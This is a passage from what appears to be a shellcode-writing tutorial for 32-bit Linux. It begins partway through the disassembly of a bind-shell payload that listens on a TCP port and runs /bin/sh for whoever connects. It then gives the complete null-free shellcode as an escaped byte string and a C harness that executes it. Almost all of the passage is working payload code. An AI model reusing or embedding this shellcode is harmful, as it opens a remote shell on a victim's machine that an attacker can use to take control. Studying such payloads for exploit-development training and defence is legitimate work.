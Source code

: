 ```
  30:   31 c9                   xor    %ecx,%ecx
  32:   31 f6                   xor    %esi,%esi
  34:   66 b8 6c 01             mov    $0x16c,%ax
  38:   cd 80                   int    $0x80
  3a:   93                      xchg   %eax,%ebx
  3b:   b1 02                   mov    $0x2,%cl

0000003d <loop>:
  3d:   b0 3f                   mov    $0x3f,%al
  3f:   cd 80                   int    $0x80
  41:   49                      dec    %ecx
  42:   79 f9                   jns    3d <loop>
  44:   31 c0                   xor    %eax,%eax
  46:   50                      push   %eax
  47:   68 6e 2f 73 68          push   $0x68732f6e
  4c:   68 2f 2f 62 69          push   $0x69622f2f
  51:   89 e3                   mov    %esp,%ebx
  53:   50                      push   %eax
  54:   89 e2                   mov    %esp,%edx
  56:   53                      push   %ebx
  57:   89 e1                   mov    %esp,%ecx
  59:   b0 0b                   mov    $0xb,%al
  5b:   cd 80                   int    $0x80

```
Great we appear to have avoided the dreaded NULL bytes!!. Lets get this into
shell code

```
  $ for i in $(objdump -d bind.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xff\xb3\x02\xfe\xc1\x66\xb8\x67\x01\xcd\x80\x97\x52\x66\x68\x13
\x88\x66\x53\x89\xe1\x87\xdf\xb2\x10\x66\xb8\x69\x01\xcd\x80\x87\xca\x66\xb8\x6b\x01\xcd\x80\x31\xc9
\x31\xf6\x66\xb8\x6c\x01\xcd\x80\x93\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x6e\x2f\x73
\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
Lets put this into our shellcode test harness 

{% highlight C %}
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xff\xb3\x02\xfe\xc1\x66\xb8\x67\x01\xcd\x80\x97\x52\x66\x68\x13"\
"\x88\x66\x53\x89\xe1\x87\xdf\xb2\x10\x66\xb8\x69\x01\xcd\x80\x87\xca\x66\xb8\x6b\x01\xcd\x80\x31\xc9"\
"\x31\xf6\x66\xb8\x6c\x01\xcd\x80\x93\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x6e\x2f\x73"\
"\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{

          printf("Shellcode Length:  %d\n", strlen(code));

                  int (*ret)() = (int(*)())code;

                          ret();

}
{% endhighlight %}
